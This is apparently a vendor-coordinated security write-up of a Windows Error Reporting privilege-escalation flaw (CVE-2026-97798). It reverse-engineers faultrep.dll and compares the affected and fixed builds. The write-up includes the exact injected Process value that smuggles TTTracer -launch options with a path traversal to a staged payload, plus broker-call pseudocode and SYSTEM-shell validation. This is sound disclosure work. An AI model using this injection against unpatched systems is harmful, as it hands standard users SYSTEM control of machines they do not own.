





Executive summary
Diffract discovered and reported a local privilege-escalation vulnerability in the elevated Windows Error Reporting data-collection path. Microsoft assigned the issue CVE-2026-97798.
The vulnerable broker accepts a caller-controlled field named Process for a
Time Travel Debugging operation. Inside faultrep.dll, the field is parsed as
ordinary data and stored as a string. It is later inserted, without preserving
its argument boundary, immediately after TTTracer.exe -onlaunch in a command
line created by a privileged process.
That semantic change—from a process name to command-line text—allows a
standard Medium-integrity user to inject additional TTTracer options. By
introducing TTTracer's -launch mode, the caller can select a native executable
from a user-writable directory and have it started as
NT AUTHORITY\SYSTEM.
The issue was reproduced through the real elevated broker on Windows 11
version 25H2 build 26200.9457. The caller was a non-administrator at Medium
integrity. Two complementary tests confirmed the impact:
- A SYSTEM-only marker proved that the low-privilege caller could cause attacker-controlled native code to cross the security boundary.
- A supplemental validation created an interactive
cmd.exeowned by SYSTEM in the already logged-on standard user's session.
The triggering process required no administrator token, service installation, malicious driver, memory corruption, or race condition. The administrator-made marker described later was validation instrumentation, not part of the exploit path.
The overlooked trust boundary
Windows Error Reporting needs privileged helpers for operations that an ordinary desktop process cannot perform directly. This design creates a classic broker boundary: an unprivileged client describes an operation, while a trusted service performs it with elevated authority.
The affected path exposed a Time Travel Debugging control operation through the elevated Faultrep data collector:
1 2 3 4 5 6 7 8 9 10 11 | Medium-integrity desktop process -> faultrep!CElevatedDataCollection::GetDataCollector -> elevated WER data-collection broker -> CDataCollection::ControlTimeTravelDebugging -> TtdControl::InitializeAndCleanupRecordingFolder -> TtdControl::ParseDataRequest -> protected-process and running-process checks -> TtdControl::ConstructSelectiveRecordingConfig -> TtdControl::LaunchRecordingProcess -> TTTracer.exe running with broker privileges -> attacker-selected native payload as SYSTEM |

The existence of an elevated diagnostic operation is not itself a vulnerability. The security failure occurs because the broker accepts a value with one declared meaning—a process identifier—and later reinterprets the same bytes as part of a privileged command language.
Reverse engineering the affected interface
The dynamically validated faultrep.dll contains a seven-entry
CDataCollection vtable. The final entry is the vulnerable operation:
| Slot | Function | RVA |
|---|---|---|
| 0 | CDataCollection::QueryInterface |
0xA420 |
| 1 | CDataCollection::AddRef |
0x81A0 |
| 2 | CDataCollection::Release |
0xA570 |
| 3 | CollectLiveKernelDump |
0x9060 |
| 4 | CollectDumpAndRegisteredFilesFromProcess |
0x8B50 |
| 5 | CollectDumpAndRegisteredFilesFromLoadedModule |
0x86D0 |
| 6 | ControlTimeTravelDebugging |
0x9680 |
The client obtains the elevated data collector before sending the request to the service-side method. The broker therefore receives the caller-controlled request text under an elevated security context.
The relevant functions in the affected x64 image are:
| Function | RVA |
|---|---|
CDataCollection::ControlTimeTravelDebugging |
0x9680 |
TtdControl::ConstructSelectiveRecordingConfig |
0xCF8C |
TtdControl::InitializeAndCleanupRecordingFolder |
0xD5A0 |
TtdControl::LaunchRecordingProcess |
0xDB94 |
TtdControl::ParseDataRequest |
0xDFE4 |
CElevatedDataCollection::GetDataCollector |
0x4C8FC |
Root cause: an argument boundary disappears
Stage 1: parsing stores Process as unrestricted text
TtdControl::ParseDataRequest accepts semicolon-separated key=value
records. The following pseudocode is simplified from the affected binary and
uses descriptive names rather than decompiler temporaries:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 | HRESULT TtdControl::ParseDataRequest(wchar_t* request) { for (auto entry : Split(request, L';')) { auto [key, value] = SplitOnce(entry, L'='); if (EqualsIgnoreCase(key, L"Process")) { this->process = value; // entire value retained continue; } if (EqualsIgnoreCase(key, L"Config")) { this->config = value; continue; } if (EqualsIgnoreCase(key, L"RecorderVersion")) { this->recorderVersion = value; continue; } return E_INVALIDARG; // unknown or duplicate key } return S_OK; } |
For Process, the parser does not establish the invariant required by the
eventual sink. It does not constrain the value to a basename and does not
reject:
- whitespace;
- quotes;
- leading option characters;
- additional TTTracer switches;
- path separators;
- drive syntax;
- relative path components.
The broker does compare the resulting string against a short list of protected process names. That comparison does not solve the problem: it treats the entire string as a process name, while the later consumer tokenizes it as multiple arguments.
Stage 2: the launcher converts data into TTTracer syntax
TtdControl::LaunchRecordingProcess constructs a mutable command line with a
shape equivalent to:
1 2 3 4 5 6 7 8 | %SystemRoot%\System32\TTTracer.exe -scenario ttdwatson -deletetracefilesonexit -maxFile 250 -maxconcurrentrecordings 4 -parent * -onlaunch <Process> -out <RecordingDirectory> |
Simplified pseudocode for the security-relevant portion is:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 | HRESULT TtdControl::LaunchRecordingProcess() const { std::wstring commandLine = Format( L"%s\\TTTracer.exe " L"-scenario ttdwatson " L"-deletetracefilesonexit " L"-maxFile 250 " L"-maxconcurrentrecordings 4 " L"-parent * " L"-onlaunch %s " // attacker-controlled text L"-out %s", systemDirectory, this->process.c_str(), this->recordingDirectory.c_str()); return CreateProcessW( nullptr, // lpApplicationName commandLine.data(), // mutable, reparsed command line nullptr, nullptr, FALSE, creationFlags, nullptr, nullptr, &startupInfo, &processInfo); } |
The Process string is neither quoted as a single argument nor separated from
TTTracer's option namespace. Consequently, data validated under one grammar is
consumed under a different grammar.

Stage 3: option injection selects a new executable
A benign request produces the intended argument sequence:
1 2 3 | Process=notepad.exe TTTracer.exe ... -onlaunch notepad.exe -out <broker-directory> |
An attacker can instead supply a Process value with the following logical
shape:
1 | Process=notepad.exe -out . -launch <user-writable-native-executable> |
After concatenation, TTTracer receives new top-level options:
1 2 3 4 5 | TTTracer.exe ... -onlaunch notepad.exe -out . -launch <user-writable-native-executable> -out <broker-directory> |
The injected -out . completes the preceding mode, while the injected
-launch chooses an executable staged by the Medium-integrity caller. The
broker's original trailing -out becomes extra command-line material after
the selected executable. The important result is that the executable choice
has crossed into attacker control before privileged process creation.
The proof of concept used a relative path resolving to the caller's writable profile. This avoided any requirement to create or replace files in a privileged directory.
Exploitation mechanics in detail
The exploit does not corrupt memory. It composes two command-line languages
that assign different meanings to the same text. The outer Faultrep request
language treats Process as a value, while the inner TTTracer command-line
language treats spaces and option prefixes inside that value as syntax.
| Layer | Intended interpretation | Actual attacker-controlled interpretation |
|---|---|---|
| Faultrep request parser | One Process field |
One unrestricted string containing several tokens |
| Faultrep launcher | The process name following -onlaunch |
Text inserted directly into TTTracer's option stream |
| TTTracer parser | One image name | The image name followed by attacker-supplied switches |
| TTTracer launch operation | Broker-selected tracing target | Attacker-selected executable launched with broker authority |
1. Stage a native payload without crossing a boundary
The Medium-integrity process first writes an ordinary native executable to a directory it already controls, such as its own profile. This step is not privileged and proves nothing by itself. The important property is that the same pathname is readable and executable by the privileged TTTracer process.
The validated request used a relative traversal that resolved into the
caller's AppData\Local\Microsoft\WindowsApps directory. In normalized form,
the security-relevant value was equivalent to:
1 | notepad.exe -out . -launch x\..\..\..\..\Users\<user>\AppData\Local\Microsoft\WindowsApps\payload.exe |
The initial notepad.exe is syntactic camouflage for the expected
-onlaunch operand. It is not the executable whose authority matters.
2. Reach the elevated data-collection broker
The client obtains the elevated Faultrep data collector and calls the exposed TTD control method. The caller remains a standard user throughout this step; the trusted broker is the component that owns the elevated execution context. The relevant logical sequence is:
1 2 3 4 5 6 7 8 | auto collector = GetElevatedDataCollector(); std::wstring request = L"Process=" + injectedProcessText; std::wstring recordingDirectory = L"C:\\Windows\\Temp\\TtdRecord\\"; collector->ControlTimeTravelDebugging( request.c_str(), recordingDirectory.c_str()); |
This pseudocode deliberately omits interface identifiers and activation
boilerplate. Those details do not change the flaw: an unprivileged caller can
deliver the composite Process value to privileged parsing and launch code.
The -scenario ttdwatson switch shown in the eventual TTTracer command line is
hard-coded by LaunchRecordingProcess; it is not a caller-supplied request
field.
3. Pass validation as one string
ParseDataRequest splits the outer record at ; and then separates its key
and value. It does not tokenize the Process value using TTTracer's grammar.
As a result, the whole composite string survives as this->process.
Any protected-process-name comparison also sees the composite text. A check
against a literal such as lsass.exe cannot establish safety when the later
consumer interprets whitespace and -launch as syntax. The validation and
the sink therefore disagree about the type of the value:
1 2 | validation type: process-name string sink type: TTTracer command fragment |
This type confusion at the command-language boundary is the core defect.
4. Splice the value into a privileged command line
The broker formats the preserved string after -onlaunch and before its own
trailing -out option. With the tested input, the effective command becomes:
1 2 3 4 5 6 7 8 9 10 | TTTracer.exe -scenario ttdwatson -deletetracefilesonexit -maxFile 250 -maxconcurrentrecordings 4 -parent * -onlaunch notepad.exe -out . -launch x\..\..\..\..\Users\<user>\AppData\Local\Microsoft\WindowsApps\payload.exe -out <broker-recording-directory> |
The injected -out . gives TTTracer a complete output operand before the
attacker switches operation mode. The following -launch then selects the
payload. The broker's original suffix remains after that selection and is no
longer a security boundary: the executable choice has already become
attacker-controlled.
Using CreateProcessW with a null lpApplicationName is relevant because the
entire mutable buffer is treated as a command line. It is not, however, the
only bug. Even if the TTTracer executable path is unambiguous, concatenating
untrusted text into TTTracer's option namespace still permits option
injection.
5. TTTracer performs the privileged launch
Faultrep starts TTTracer in the broker's privileged context. TTTracer parses
the injected mode and launches the selected native executable. The new
process consequently runs as NT AUTHORITY\SYSTEM, even though both the
payload file and the original request came from a Medium-integrity standard
user.
The resulting authority chain is:
1 2 3 4 | standard-user process
-> elevated Faultrep broker
-> SYSTEM TTTracer.exe
-> attacker-selected native payload as SYSTEM
|
Obtaining SYSTEM payload execution requires no token theft. The payload receives SYSTEM because a trusted component voluntarily creates it after the option stream has been reinterpreted. The supplemental interactive-shell payload later duplicates a winlogon SYSTEM token only to place a console in the already logged-on user's session; that session-bridging step is not needed for the privilege escalation itself.
Dynamic validation
The validation was deliberately structured to distinguish a real account and integrity-level boundary crossing from a privileged service merely performing an allowed operation.
Test environment
1 2 3 4 5 6 7 | Product: Windows 11 version 25H2 (ge_release) OS build: 26200.9457 Architecture: x64 Environment: Isolated validation VM Test account: Standard local user Account type: Standard user Integrity: Medium, S-1-16-8192 |
The triggering account was not a member of BUILTIN\Administrators.
Control: a protected marker
An administrator created a marker only for validation. Its ACL granted Full Control to SYSTEM and built-in Administrators, while built-in Users received read/execute access:
1 2 3 | NT AUTHORITY\SYSTEM: Full Control BUILTIN\Administrators: Full Control BUILTIN\Users: Read and Execute |
This setup step is not an exploitation prerequisite. The vulnerable broker call and SYSTEM payload launch do not depend on an administrator-created file. The retained validation harness uses the marker only as a simple, auditable control: the standard-user process must be unable to replace it directly.
The trigger confirmed exactly that:
1 2 | token: elevationType=1 integrityRid=0x2000 administratorsEnabled=0 direct DeleteFile denied as expected: 5 |

Result: the staged payload runs as SYSTEM
The same Medium-integrity process then invoked the real elevated broker:
1 2 | GetDataCollector(elevated) = 0x00000000 ControlTimeTravelDebugging = 0x00000000 |
After the request completed, the protected marker contained identity data written by the staged payload:
1 2 3 4 5 | Elevated payload: user=SYSTEM integrityRid=0x4000 elevationType=1 administratorsEnabled=1 |
This proves that attacker-controlled native code, rather than only the WER broker, executed across the privilege boundary.

Demonstration: an interactive SYSTEM process
A second validation used the same option-injection primitive. The payload
first confirmed its SYSTEM identity and then created a console in the already
logged-on standard user's Session 1. Its initial attempt to move its own token
to Session 1 failed with error 1314, so the supplemental payload duplicated the
Session 1 winlogon SYSTEM token and used CreateProcessAsUserW. This was only
needed to make the already-confirmed SYSTEM execution interactive.
The preserved process record was:
1 2 3 4 5 6 | Image: C:\Windows\System32\cmd.exe PID: 736 Owner: NT AUTHORITY\SYSTEM Session: 1 Session user: Standard local user Create result: win32Error=0 |

The interactive process demonstrates that the primitive was not limited to a marker write or another constrained service action.
Demo

Root-cause change in a newer fixed build
In a newer fixed build, the corresponding CDataCollection interface has six
entries instead of seven. The vulnerable TTD broker operation and its support
code are absent. The following affected-build functions have no counterpart:
CDataCollection::ControlTimeTravelDebugging;CElevatedDataCollection::ControlTimeTravelDebugging;TtdControl::ParseDataRequest;TtdControl::InitializeAndCleanupRecordingFolder;TtdControl::LaunchRecordingProcess.
The old wer!WerpSetTtdStatus import and the WER-side command-builder strings
are also absent.
| Property | Affected build | Newer fixed build |
|---|---|---|
CDataCollection entries |
7 | 6 |
| TTD broker slot | Present at index 6 | Absent |
| TTD request parser | Present | Absent |
| Privileged TTTracer builder | Present | Absent |
| TTD recorder binaries | Present | Still present |
| Medium-to-SYSTEM WER TTD path | Reachable | Removed in inspected image |
This distinction matters: Time Travel Debugging itself was not removed from Windows. The security-relevant change is removal of the WER operation that accepted Medium-integrity input and converted it into a SYSTEM TTTracer launch.
The newer build was used only for a root-cause comparison. Microsoft's public advisory remains authoritative for supported products and servicing details.
Security impact
The demonstrated impact is local privilege escalation from a non-administrator
at Medium integrity to arbitrary native code execution as
NT AUTHORITY\SYSTEM at System integrity.
Validated binary identity
| File | Version | Size | SHA-256 |
|---|---|---|---|
faultrep.dll |
10.0.26100.9444 | 551,104 | EB3765A59D871F222C815DE8C3B911DF61136512C2495635732F80EA66C0F524 |
TTTracer.exe |
1.11.580.0 | 137,824 | 3C1E379360867DD4394E970D0CEFB34E3258E18BE9564537855C482844A9959E |
TTDRecord.dll |
1.11.580.0 | 893,976 | 037A7E1E499BB0E2B0D1D88054F3B3CA210C0ED504C93D726DCE960324818197 |
The SHA-256 values and CodeView identities from the preserved binaries were used as the authoritative identifiers.
Credits
Thanks to the Microsoft Security Response Center and the Windows engineering team for coordinating the fix.